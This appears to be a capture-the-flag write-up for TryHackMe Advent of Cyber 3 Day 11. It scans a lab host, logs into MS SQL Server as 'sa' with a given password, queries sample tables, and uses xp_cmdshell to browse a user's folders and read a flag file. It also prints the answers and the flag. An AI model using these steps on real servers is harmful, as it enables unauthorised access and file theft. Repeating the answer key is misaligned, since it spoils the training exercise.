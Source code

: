 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 11
### References
* Tib3rius. (2021). TryHackMe - Advent of Cyber 3 - Day 11 Walkthrough [YouTube Video]. In YouTube. https://youtu.be/VJ2YFzTMqNY

## There is an open port related to MS SQL Server accessible over the network. What is the port number?
```bash
$ nmap -Pn 10.10.34.1
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

**Answer**: `1433`
## Let’s try to run `sqsh -S 10.10.34.1 -U sa -P t7uLKzddQzVjVFJp`. If the connection is successful, you will get a prompt. What is the prompt that you have received?
```bash
$ sqsh -S 10.10.34.1 -U sa -P t7uLKzddQzVjVFJp
1>
```

**Answer**: `1>`
## What is the first name of the reindeer of id 9?
```sql
1> SELECT * FROM reindeer.dbo.names;
2> go
 id  first     last       nickname   
 --- --------- ---------- -----------
   1 Dasher    Dasher     Dasher     
   2 Dancer    Dancer     Dancer     
   3 Prancer   Prancer    Prancer    
   4 Vixen     Vixen      Vixen      
   5 Comet     Comet      Comet      
   6 Cupid     Cupid      Cupid      
   7 Donner    Donder     Dunder     
   8 Blitzen   Blixem     Blitzen    
   9 Rudolph   Reindeer   Red Nosed  
```

**Answer**: `Rudolph`
## Check the table `schedule`. What is the destination of the trip scheduled on December 7?
```sql
1> SELECT * FROM reindeer.dbo.schedule;
2> go
 id       date                destination   notes  
 -------- ------------------- ------------- -------
     2000 Dec  5 2021 12:00AM Tokyo         NULL   
     2001 Dec  3 2021 12:00AM London        NULL   
     2002 Dec  1 2021 12:00AM New York      NULL   
     2003 Dec  2 2021 12:00AM Paris         NULL   
     2004 Dec  4 2021 12:00AM California    NULL   
     2005 Dec  7 2021 12:00AM Prague        NULL   
     2006 Dec 11 2021 12:00AM Bangkok       NULL   
     2007 Dec 10 2021 12:00AM Seoul         NULL   
```

**Answer**: `Prague`
## Check the table `presents`. What is the quantity available for the present `Power Bank`?
```sql
1> SELECT * FROM reindeer.dbo.presents;
2> go
 id     name               quantity   
 ------ ------------------ -----------
    100 Blanket                    500
    101 Laptop                    1000
    102 Cooler                     250
    103 BT Speaker                1000
    104 THM Subscription        100000
    105 Alarm Clock                500
    106 Cookies                  10000
    107 THM T-Shirt             100000
    108 Power Bank               25000
    109 USB Hub                  15000
```

**Answer**: `25000`
## There is a flag hidden in the `grinch` user's home directory. What are its contents?
* From previous TryHackMe Windows challenges, the `flag.txt` file is usually under the `Documents` or `Desktop` directories.
```cmd
1> xp_cmdshell 'dir C:\Users\grinch';
2> go
		11/10/2021  02:22 AM    <DIR>          3D Objects
		11/10/2021  02:22 AM    <DIR>          Contacts
		11/10/2021  02:22 AM    <DIR>          Desktop
		11/10/2021  02:29 AM    <DIR>          Documents
		11/10/2021  02:22 AM    <DIR>          Downloads
		11/10/2021  02:22 AM    <DIR>          Favorites
		11/10/2021  02:22 AM    <DIR>          Links
		11/10/2021  02:22 AM    <DIR>          Music
		11/10/2021  02:22 AM    <DIR>          Pictures
		11/10/2021  02:22 AM    <DIR>          Saved Games
		11/10/2021  02:22 AM    <DIR>          Searches
		11/10/2021  02:22 AM    <DIR>          Videos
1> xp_cmdshell 'dir C:\Users\grinch\Documents';
2> go
		11/10/2021  02:28 AM                21 flag.txt
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';
2> go
		THM{YjtKeUy2qT3v5dDH}
```

**Flag**: `THM{YjtKeUy2qT3v5dDH}`